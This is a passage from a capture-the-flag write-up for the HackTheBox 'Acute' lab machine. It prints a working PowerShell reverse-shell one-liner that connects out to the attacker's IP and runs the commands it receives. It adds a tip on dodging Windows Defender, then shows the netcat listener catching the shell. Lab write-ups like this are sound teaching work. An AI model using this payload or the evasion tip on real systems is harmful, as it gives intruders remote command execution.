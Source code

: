 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Acute/images/Pasted%20image%2020230814192753.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.19',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS > ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

> Note: The `(pwd).Path` is removed, because it seems like **Windows Defender dislike the whole path is being sent to a remote host**.

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Acute/images/Pasted%20image%2020230814192906.png)

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|19:19:03(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49843

PS > whoami; ipconfig /all
acute\edavies

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
```